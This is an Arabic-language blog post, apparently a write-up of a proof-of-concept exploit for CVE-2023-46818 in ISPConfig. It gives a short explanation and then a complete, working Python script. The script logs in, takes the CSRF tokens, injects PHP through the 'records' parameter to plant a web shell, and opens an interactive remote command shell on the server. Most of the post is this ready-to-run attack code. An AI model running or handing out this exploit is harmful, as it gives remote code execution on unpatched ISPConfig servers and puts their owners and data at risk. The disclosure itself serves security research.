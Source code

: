 ```yaml
---
title: CVE-2023-46818 PoC
date: 2025-03-22
description: سكربت بايثون يستغل ثغرة command injection في نظام ispconfig ويرفع ويب شيل على السيرفر.
tags: ["Exploit Development"]
categories: "Exploit_Development"
---
```

# نبذة عن الثغرة
في تطبيق ispconfig قبل الإصدار رقم 3.2.11p1  يوجد ثغرة command injection  في البارامتر `records` أثناء تغيير اللغة الخاصة بالتطبيق, نقدر من خلالها نرفع webshell على السيرفر ثم نتواصل معها وننفذ أوامر على النظام. نبدأ السكربت بدالة `check_connection` اللي تتأكد أن الاتصال مع الهوست ممكن، ثم نروح لدالة `login` اللي هدفها تسجيل الدخول باستخدام البيانات المزودة ثم إرجاع الكوكيز عشان نستخدمها في الطلبات الجاية. بعدها دالة `injection` اللي من خلالها نرفع ملف اللغة `.lng` على السيرفر ثم ناخذ ال csrf key/id عشان نكمل عملية رفع الملف, بعد ما نرفع الملف نقدر نرسل طلبات على النقطة `admin/46818.php/` عشان ننفذ أوامر على النظام وهذا هو عمل الدالة الأخيرة `exploit`. نلاحظ إني غيرت كود ال php إلى شيء أبسط وهو بارامتر `l` نعطيه الأمر وهو ينفذه. الثغرة موجودة في [github](https://github.com/vulnerk0/CVE-2023-46818) الخاص بي.

```python
#!/usr/bin/python
from bs4 import BeautifulSoup
import requests
import sys
import random
import base64

def check_connection(url):
    print(f'[!] Checking connection to the target: {url}')
    try: 
        req = requests.get(url)
    except:
        print('[-] Could not reach the target, check the url/port and the vpn connection')
        exit()
    print('[+] Target is reachable, logging in with the provided creds.')
    return 



def login(url,username,password):
    data = {'username': username, 'password': password, 's_mod': 'login', 's_pg': 'index'}
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    try:
        login_req = requests.post(f'{url}login/index.php',allow_redirects=False, data=data, headers=headers)
    except requests.exceptions.RequestException as e:
        print(f'[-] An error occured {e}')
        exit()
    try:
        cookie = login_req.headers['Set-Cookie']
        headers = {'Cookie': cookie}
        check_req = requests.get(f'{url}index.php', headers=headers)
        if not 'logout.php' in check_req.text:
            print('[-] Could not login using the provided credentials')
            exit()
    except:
        print(f'[-] An error has occured, check that the url points to the root of the website')
        exit()
    print('[+] Logged in using the provided credentials!')
    return cookie

def injection(url, cookie):
    url = f'{url}admin/language_edit.php'
    phpcode_string = "<?php system($_GET['l']); ?>".encode('ascii')
    b64bytes = base64.b64encode(phpcode_string)
    encoded_payload = b64bytes.decode('ascii')
    injection_code = f"'];file_put_contents('46818.php',base64_decode('{encoded_payload}'));die;#"
    chars = 'qwertyuioplkjhgfdsazxcvbnm'
    chars_list = list(chars)
    random.shuffle(chars_list)
    rand_file_name = ''.join(chars_list)
    lang_file = f'{rand_file_name}.lng'
    
    data = {'lang':'en', 'module':'help', 'lang_file': lang_file}
    headers = {'Cookie': cookie}
    try:
        req = requests.post(url, data=data, headers=headers)
    except requests.exceptions.RequestException as e:
        print(f'[-] An error has occured {e}')
    try:
        soup = BeautifulSoup(req.text, 'html.parser')
        csrf_id = soup.find(attrs={'name':'_csrf_id'})['value']
        csrf_key = soup.find(attrs={'name':'_csrf_key'})['value']
    except:
        print('[-] Could not grab the csrf tokens (id, key)')
        exit()
    print('[!] Grabbed the csrf key and id')
    
    data = {'lang':'en', 'module':'help', 'lang_file': lang_file,'_csrf_id': csrf_id, '_csrf_key':csrf_key, 'records[\\]':injection_code}
    try:
        req = requests.post(url, data=data, headers=headers)
    except requests.exceptions.RequestException as e:
        print(f'[-] An error has occured {e}')
def exploit(url, cookie):
    url = f'{url}admin/46818.php'
    print(f'[!] Launching shell!')
    headers = {'Cookie': cookie}
    try:
        req = requests.get(f'{url}?l=ls', headers=headers)
        if req.ok:
            print('[#] The shell has been uploaded, prompting you now...')
        else:
            print('[-] The shell hasn\'t been uploaded, maybe try again!')
    except:
        print('[-] Error while trying to access the shell file')
    while True:
        cmd = input("Shell# ")
        print(cmd)
        if cmd == 'exit':
            print('[^^] Bye.')
            exit()
        req = requests.get(f'{url}?l={cmd}', headers=headers)
        print(req.text)



def main():
    if len(sys.argv) != 4:
        print(f'[!] Usage: python {sys.argv[0]} <URL> <USERNAME> <PASSWORD>')
        exit()
    url = sys.argv[1]
    if not url.endswith('/'):
        url += '/'
    username = sys.argv[2]
    password = sys.argv[3]
    check_connection(url)
    cookie = login(url,username,password)
    injection(url, cookie)
    exploit(url, cookie)
if __name__ == '__main__':
    main()
```